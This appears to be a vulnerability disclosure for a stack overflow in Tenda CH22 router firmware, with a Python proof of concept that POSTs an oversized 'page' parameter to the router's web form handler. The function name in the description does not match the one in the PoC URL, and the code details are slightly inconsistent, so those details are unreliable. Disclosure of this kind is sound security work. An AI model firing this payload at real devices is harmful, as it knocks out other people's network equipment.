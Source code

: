 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware has a stack overflow vulnerability located in the `frmL7PlotForm` function. This function accepts the `page` parameter from a POST request. The statement `v1 = sprintf(s, "im.asp?page=%s", v6);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v1` array, thus triggering this security vulnerability.
![[2024-08-30 165148.png]]
## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/frmL7ProtForm"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[2024-08-30 165257.png]]